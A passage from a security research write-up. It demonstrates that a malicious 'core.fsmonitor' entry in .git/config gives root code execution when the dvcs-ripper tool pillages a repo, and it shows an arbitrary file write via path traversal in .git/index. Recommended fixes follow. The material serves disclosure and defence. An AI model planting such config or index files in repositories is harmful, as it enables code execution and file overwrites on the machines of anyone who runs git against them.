root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> .git/config

root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Serve the Git repo via HTTP:

```plain
root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win` does not exist. Use `dvcs-ripper` to pillage the Git repo. Observe that `/tmp/win` contains the results of our RCE payload.

```plain
% sudo -g docker docker exec -ti 626b1fc8e12d bash

root@626b1fc8e12d:~# cd $(mktemp -d)

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# cat /tmp/win
cat: /tmp/win: No such file or directory

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# ~/dvcs-ripper/rip-git.pl -h
DVCS-Ripper: rip-git.pl. Copyright (C) Kost. Distributed under GPL.

Usage: /root/dvcs-ripper/rip-git.pl [options] -u [giturl]

 -c	perform 'git checkout -f' on end (default)
 -b <s>	Use branch <s> (default: master)
 -e <s>	Use redis <s> server as server:port
 -g	Try to inteligently guess name of packed refs
 -k <s>	Use session name <s> for redis (default: random)
 -a <s>	Use agent <s> (default: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.7; rv:10.0.2) Gecko/20100101 Firefox/10.0.2)
 -n	do not overwrite files
 -m	mkdir URL name when outputting (works good with -o)
 -o <s>	specify output dir
 -r <i>	specify max number of redirects (default: 0)
 -s	do not verify SSL cert
 -t <i>	use <i> parallel tasks
 -p <h>	use proxy <h> for connections
 -x	brute force packed refs (extremely slow!!)
 -v	verbose (-vv will be more verbose)
 -ba	<s>	set basic auth key

Example: /root/dvcs-ripper/rip-git.pl -v -u http://www.example.com/.git/
Example: /root/dvcs-ripper/rip-git.pl # with url and options in /root/.rip-git
Example: /root/dvcs-ripper/rip-git.pl -v -u -p socks://localhost:1080 http://www.example.com/.git/
For socks like proxy, make sure you have LWP::Protocol::socks

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# ~/dvcs-ripper/rip-git.pl -u http://127.0.0.1:4444/.git/
[i] Using session name: avOYJgzh
Checking object directories: 100% (256/256), done.
error: 6657c242fb82d89393410866c85adc138c1a65ed: invalid sha1 pointer in cache-tree
Checking object directories: 100% (256/256), done.
[!] No more items to fetch. That's it!

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# ls -la
total 16
drwx------ 3 root root 4096 Aug  2 08:22 .
drwxrwxrwt 1 root root 4096 Aug  2 08:22 ..
drwxr-xr-x 6 root root 4096 Aug  2 08:22 .git
-rw-r--r-- 1 root root   14 Aug  2 08:22 data.txt

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# cat data.txt
Hello, world!

root@626b1fc8e12d:/tmp/tmp.Y42qnd5EwC# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Addendum - Arbitrary file write via `.git/index`

You may have noticed that by controlling `.git/index` we get an arbitrary file write primitive. We used it in some cases to write things to the `.git` directory. It can also be used as a simple arbitrary write primitive, as shown in the following example:

```plain
root@ab275627a561:/# cd $(mktemp -d)

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# git init
Initialized empty Git repository in /tmp/tmp.4UZFxr3UPb/.git/

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# mkdir zzyzzyzzyzzyzzyzzyzzyzzyroot

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# echo 'Hello, world!' > zzyzzyzzyzzyzzyzzyzzyzzyroot/win

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# git add zzyzzyzzyzzyzzyzzyzzyzzyroot/

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# git commit -m 'add win'
[main (root-commit) 5503a2b] add win
 1 file changed, 1 insertion(+)
 create mode 100644 zzyzzyzzyzzyzzyzzyzzyzzyroot/win

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# sed -i 's#zzy#../#g' .git/index

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# git status
On branch main
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	renamed:    zzyzzyzzyzzyzzyzzyzzyzzyroot/win -> ../../../../../../../../root/win
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    ../../../../../../../../root/win
Untracked files:
  (use "git add <file>..." to include in what will be committed)
	zzyzzyzzyzzyzzyzzyzzyzzyroot/

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# cat /root/win
cat: /root/win: No such file or directory

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# git checkout .
Updated 1 path from the index

root@ab275627a561:/tmp/tmp.4UZFxr3UPb# cat /root/win
Hello, world!
```

This was not called out on a per-pillager basis where we can otherwise simply get RCE. This document is far too long already.

Note that this only works when you have control over a user's `.git/index` file as of when they do a `git checkout`, which is something that should not be possible if a user has simply done `git clone`' or `git pull` against a repo you control. Hence, this is not (strictly speaking) a vulnerability in Git.

## Recommended fix for Git pillaging tools

Do not download the `config` file from the remote host (or contents of `hooks/` for that matter).

Be skeptical of `index` files obtained from remote hosts. Consider using `git ls-files` and checking for path traversal sequences, or using `git reset` to rebuild the file. 

Alternatively, downloading untrustworthy files to a temporary location and then doing a local `git clone` from that location to the final location might work to neuter any dangerous elements of the untrustworthy files.

In the case that the recursive downloader logic itself is vulnerable, fix the path traversal issue.

# Conclusion

The ability to configure `core.fsmonitor` can be said to be a Git feature, not a bug. However, it is a useful exploitation primitive when you can trick someone into using `git` against a Git repo where you control the `config` file.

OVE-20210718-0001 is a quirk in Git that allows an attacker to "bury" a malicious Git repo within another Git repo. It defeats the "no files named `.git` within a repo" control that normally prevents a repo from containing another repo. If a user clones the parent repo, and then performs one of many Git operations within the subdirectory that contains the embedded Git repo (or a child directory thereof), the `core.fsmonitor` configuration element can be used to achieve arbitrary code execution.

Software that opportunistically or naively runs `git` against an untrustworthy Git repository can be tricked into executing attacker-specified commands. This affects some IDEs, shell prompts, and Git pillaging software.

Finally, there are almost certainly other software products that can feasibly be exploited using Git repos when you can control files in `.git/`

Happy hacking!

<https://twitter.com/justinsteven>